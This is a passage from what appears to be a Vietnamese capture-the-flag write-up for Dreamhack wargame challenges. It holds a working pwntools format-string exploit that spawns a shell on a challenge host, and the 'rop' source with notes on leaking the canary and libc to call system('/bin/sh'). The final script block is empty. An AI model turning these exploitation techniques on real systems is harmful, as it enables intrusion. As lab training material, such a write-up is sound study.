 ```python=
#!/usr/bin/python3

from pwn import *

exe = ELF('./basic_exploitation_003', checksec = False)

#p = process(exe.path)

p = remote('host1.dreamhack.games', 18395)


payload = b"%156c" + p32(exe.symbols['get_shell'])

p.send(payload)

p.interactive()
```
# [rop](https://dreamhack.io/wargame/challenges/354)
## Source code
```c 
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```
- Bài này tương tự bài [Return to Library](https://hackmd.io/3AGME2mOS92lF36G_35qEQ?view#Return-to-Library) nhưng không có hàm thực thi để chiếm shell nên ta cần leak libc để thực thi hàm `system("/bin/sh")`
- Để leak libc ta xem bảng got có những hàm nào để tận dụng
![image](https://hackmd.io/_uploads/H1DqwgzYA.png)
- Ta thấy có hàm `puts`, ta dùng `puts@plt` để thực thi và leak ra địa chỉ libc của `puts`
![image](https://hackmd.io/_uploads/rk2xOlftA.png)
![image](https://hackmd.io/_uploads/SJ1V_lGt0.png)
## Script
```python=
#!/usr/bin/python3

```